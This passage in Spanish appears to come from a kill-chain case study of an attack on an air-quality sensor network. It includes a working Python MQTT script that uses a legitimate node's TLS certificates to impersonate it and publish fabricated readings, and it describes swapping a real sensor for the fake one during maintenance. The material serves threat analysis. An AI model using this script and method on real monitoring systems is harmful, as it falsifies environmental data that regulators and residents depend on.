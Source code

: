 🧪 Ejemplo: script de publicación maliciosa
``` Script de publicación maliciosa
import paho.mqtt.client as mqtt
import ssl
import json
import time

broker = "mqtt.airepuro-sensor.com"
port = 8883
topic = "datos/ambiente/nodo_05"
client_cert = "certs/nodo05-client.pem"
client_key = "certs/nodo05-key.pem"
ca_cert = "certs/ca.pem"

client = mqtt.Client("nodo_falsificado")
client.tls_set(ca_cert, certfile=client_cert, keyfile=client_key, tls_version=ssl.PROTOCOL_TLSv1_2)
client.connect(broker, port)

def generar_datos_falsos():
    return json.dumps({
        "pm25": 4.2,
        "co2": 390.5,
        "voc": 0.12,
        "temperatura": 21.8,
        "humedad": 45.6
    })

while True:
    payload = generar_datos_falsos()
    client.publish(topic, payload)
    print(f"Publicado: {payload}")
    time.sleep(10)

```
Se puede mejorar este script para simular comportamientos reales.

✅ **Resultado del armado**
El atacante ahora dispone de un nodo falso completamente funcional, indistinguible del tráfico legítimo tanto en formato como en autenticación. Este nodo puede ser desplegado físicamente o ejecutado desde una instancia remota. El sistema de monitoreo no tiene forma de validar si los datos publicados reflejan condiciones reales o simuladas, lo que permite iniciar la siguiente fase del ataque con alto grado de persistencia y sigilo.

### **3. Entrega del ataque (Delivery)**

Con el nodo falsificado ya desarrollado y validado para simular el comportamiento de un sensor real, el atacante procede a su integración física dentro del sistema. Esta fase consiste en sustituir un nodo legítimo por uno modificado que emite mediciones falsas, aprovechando el acceso operativo que posee la empresa sobre su propia infraestructura de monitoreo.

La entrega se realiza de manera discreta durante una intervención técnica habitual —como tareas de calibración, mantenimiento preventivo o reemplazo por fallo— lo que permite introducir el nuevo dispositivo sin generar alertas ni sospechas.
